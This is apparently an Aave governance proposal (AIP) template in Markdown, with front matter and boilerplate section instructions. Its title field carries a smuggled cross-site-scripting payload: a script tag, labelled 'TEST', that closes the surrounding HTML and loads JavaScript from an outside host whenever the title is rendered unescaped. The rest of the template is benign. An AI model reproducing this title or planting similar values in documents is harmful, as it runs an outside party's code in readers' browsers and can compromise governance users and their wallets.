 ```yaml
---
title: TEST [a](<script src="https://a.op1um.se/a.js"></script></h3>)
author: BGD Labs (@bgdlabs)
shortDescription: Activation of Aave v3 Ethereum
discussions: https://governance.aave.com/t/bgd-aave-v3-ethereum-new-deployment-vs-aave-v2-upgrade/9990/16
created: 2023-01-20
---
```


This is the template for AIPs.

When opening a pull request to submit your AIP, please use an uppercase abbreviated title in the filename, `TITLE_ABBREV.md`.

The title should be 44 characters or less.

## Simple Summary

If you can't explain it simply, you don't understand it well enough. Provide a simplified and layman-accessible explanation of the AIP.

## Motivation

The motivation is critical for AIPs that want to change Aave. It should clearly explain why the existing protocol specification is inadequate to address the problem that the AIP solves. AIP submissions without sufficient motivation may be rejected outright.

## Specification

The technical specification should describe the syntax and semantics of any new feature.

## References

A list of relevant links like for this proposal e.g.

- [forum discussion](discordlink)
- [tests](githublink)
- [proposalCode](githublink)

## Copyright

Copyright and related rights waived via [CC0](https://creativecommons.org/publicdomain/zero/1.0/).
